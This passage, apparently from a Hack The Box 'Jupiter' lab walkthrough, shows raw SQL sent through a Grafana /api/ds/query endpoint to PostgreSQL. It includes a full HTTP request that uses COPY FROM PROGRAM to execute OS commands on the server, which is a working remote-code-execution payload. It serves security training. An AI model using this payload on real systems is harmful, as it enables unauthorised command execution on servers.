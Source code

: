 We will then add this to our ```/etc/hosts``` file

```
10.10.11.216 jupiter.htb kiosk.jupiter.htb
```

# Remote Code Execution on /api/ds/query endpoint
Intercepting the request that is being made when we visit http://kiosk.jupiter.htb, we are able to intercept a POST request to ```/api/ds/query``` that executes a raw SQL query to the postgres database

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
Content-Length: 484
x-plugin-id: postgres
x-grafana-org-id: 1
x-panel-id: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
content-type: application/json
accept: application/json, text/plain, */*
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
Origin: http://kiosk.jupiter.htb
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"queies":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":839}],"range":{"from":"2023-10-04T10:21:07.326Z","to":"2023-10-04T16:21:07.326Z","raw":{"from":"now-6h","to":"now"}},"from":"1696414867326","to":"1696436467326"}
```

Since we know that this is a postgres database, we will be able to execute remote code exeution via the raw sql query

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
Content-Length: 444
x-plugin-id: postgres
x-grafana-org-id: 1
x-panel-id: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
content-type: application/json
accept: application/json, text/plain, */*
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
Origin: http://kiosk.jupiter.htb
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec from PROGRAM 'id';SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":839}],"range":{"from":"2023-10-04T10:21:07.326Z","to":"2023-10-04T16:21:07.326Z","raw":{"from":"now-6h","to":"now"}},"from":"1696414867326","to":"1696436467326"}
```
